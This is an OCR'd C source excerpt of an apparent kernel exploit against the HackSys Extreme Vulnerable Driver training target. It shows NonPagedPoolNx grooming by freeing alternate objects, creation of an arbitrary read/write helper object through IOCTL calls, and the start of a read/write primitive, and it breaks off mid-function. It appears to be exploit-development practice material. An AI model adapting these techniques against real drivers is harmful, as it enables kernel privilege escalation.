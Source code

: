 ```c
{
    // Bytes returned
    DWORD bytesreturnedPoke;

    // Free every other element in the global array managing objects in the new page from grooming
    for (int i = 0; i <= 5000; i += 2)
    {
        DeviceIoControl(
            driverHandle,
            0x0022206f,
            &helperobjectArray[i],
            sizeof(helperobjectArray[i]),
            &helperobjectArray[i],
            sizeof(helperobjectArray[i]),
            &bytesreturnedPoke,
            NULL
        );
    }

    printf("[+] Poked holes in the NonPagedPoolNx page containing the ARW_HELPER_OBJECT_NON_PAGED_POOL_NX objects!\n");
}

// Create the main ARW_HELPER_OBJECT_IO
ARW_HELPER_OBJECT_IO createmainObject(HANDLE driverHandle)
{
    // Instantiate an object of type ARW_HELPER_OBJECT_IO
    ARW_HELPER_OBJECT_IO helperObject = { 0 };

    // Set the Length member which corresponds to the amount of memory used to allocate a chunk to store the Name member eventually
    helperObject.Length = 0x8;

    // Bytes returned
    DWORD bytesReturned2;

    // Invoke CreateArbitraryReadWriteHelperObjectNonPagedPoolNx to create the main ARW_HELPER_OBJECT_NON_PAGED_POOL_NX
    DeviceIoControl(
        driverHandle,
        0x00222063,
        &helperObject,
        sizeof(helperObject),
        &helperObject,
        sizeof(helperObject),
        &bytesReturned2,
        NULL
    );

    // Parse the output
    printf("[+] PARW_HELPER_OBJECT_IO->HelperObjectAddress: 0x%p\n", helperObject.HelperObjectAddress);
    printf("[+] PARW_HELPER_OBJECT_IO->Name: 0x%p\n", helperObject.Name);
    printf("[+] PARW_HELPER_OBJECT_IO->Length: 0x%zu\n", helperObject.Length);

    return helperObject;
}

// Read/write primitive
void readwritePrimitive(HANDLE driverHandle)
{
    // Store the value of the base of HEVD
    unsigned long long hevdBase = memLeak(driverHandle);
```